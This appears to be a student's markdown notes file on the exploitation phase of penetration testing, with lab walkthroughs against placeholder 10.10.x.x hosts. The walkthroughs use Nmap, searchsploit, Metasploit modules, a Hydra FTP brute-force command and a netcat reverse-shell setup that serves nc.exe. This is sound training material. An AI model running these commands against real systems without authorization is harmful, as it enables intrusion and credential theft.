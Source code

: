 # Exploitation
- What is exploitation: consists of techniques and tools used by penetration testers/adveseries to gain an initial foothold on a target system or network
- Succesful Exploitation Will heavily depend on the nature and quality of *information gathering* and *service enumeration* performed on the target
## Penetration Testing Phases
1. Information Gathering
2. Enumeration
3. Exploitation
4. Post Exploitation
   1. Privelege Escalation
   2. Maintain Persistant Access
   3. Clearing Tracks
### Banner grabbing and SSH Recon
- Banner grabbing is an information gathering technique used to enumerate information regarding the target operationg system as well as services that are running on its open ports
- search service version with metasploit: `searchsploit service version` look for version
  
1. cool nmap banner grapping script: `ls -al /usr/share/nmap/scripts/ | grep banner` -> `nmap -sV --script=banner 10.10.x.x` 
2. Netcat: `nc 10.10.x.x 22` <-- port also

### Nmap scripting engine- vulnscanning

- `ls -al /usr/share/nmap/scripts/ | grep search_word`
- Shellshock: `nmap -sV -p 80 --script=http-shellshock --script-args "http-shellshock.uri=/scriptypufound.cgi" 10.10.x.x`

### Search for public Exploits
- Exploit db: vsftpd 2.3.4
- Rapid7

### Lab: HTTP File Server
1. scan: nmap
2. searchsploit: `searchsploit HTTP File Server 2.3`
3. copy to desktop: `searchsploit -m 39161`
4. vim(change exploit, IP, PORT): `vim 39161`
5. start pyhton server: `python -m SimpleHTTPServer 80`
6.  copy netcat:  `cp /usr/share/windows-resources/binaries/nc.exe .`
7. netcat: `nc -nvlp 443`
8. lunch script: `python39161.py 10.10.x.x 80`
9. get flag

### Cross compiling
  ...


### Netcat
- Netcat be used to: Banner grabbing, Port Scanning, Transferring Files, Bind/Reverse shells

### Reverse Shells
- revshells.com
- 
### Lab: Windows: File and Keylogging
1. `nmap -sV 10.10.x.x`
2. `searchsploit badblue 2.7`
3. `msfconsole` -> `use exploit/windows/http/badblue_passthru` --> `set RHOSTS 10.0.0.71` --> run
4. `shell`
5. search flag

### MSF Exploitation
![alt text](/assets/penetration_testing_with_MSF.png)

### Lab: Windows - Workflow platform
1. scan
2. check credentials online for proccess maker
3. `searchsploit ProcessMaker` 
4. launch msfconsole
5. create workspace: workspace -a nameofworkspace
6. `search processmaker`
7. use 0
8. set RHOSTS 10.10.x.x -> run
9. get flag

### Lab: Windows Black Box Penetration test: Exploitation
**Host Discovery**
   1. target `cat /etc/hosts`
   2. ping target
   3. and create file info
**Port Scanning & Enumeration**
*TCP*
   1. `nmap -sV 10.10.x.x`
   2. `nmap -T4 -PA -sV -sC -p 1-10000 10.10.x.x -oX nmap_10k`
   3. `service postgresql start && msfconsole`
   4. in msf: `workspace -a Win258`
   5. import file output: `db_import root/Desktop/wind2k8/nmap_10k`
   6. commands: `hosts`, `services`, set os_name etc -> `search smb_version` --> use 0 --> set RHOSTS -> run
*UDP SCAN*
- `nmap -sU -sV 10.10.x.x`
**Vulnerability detection/scanning**
*Targeting Microsoft IIS FTP*
  1. s
**Exploitation**
*Manual*
### Exploiting FTP
- FTP port 21, file sharing
- Can be anonymous access: check: `nmap -sV 10.10.x.x --script=ftp-anon`
- can be a brute force attack
- Search for version vuln: `searchsploit versionOfFTP`
1. After FTP found: try anonymous `ftp 10.10.x.x 21` 
2. If not 1. : find namp scripts `ls -la /usr/share/nmap/scripts/ | grep ftp-* ` -> run nmap script: `nmap -sV 10.10.x.x --script=ftp-anon`
3. Hydra bruteforce: `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.10.x.x -t 4 ftp`
4. login: `ftp 10.10.x.x` --> fill in username and password --> to download / show file `get secret.txt`


6. check version: `searchsploit FTP version`
7. check for anonymous: `nmap -sV 10.10.x.x --script=ftp-anon`

*Automated*
**Post Exploitation**
*Privelege Escalation*
*Persistence*
*Dumping Hashes*


### Linux Black box penetration test
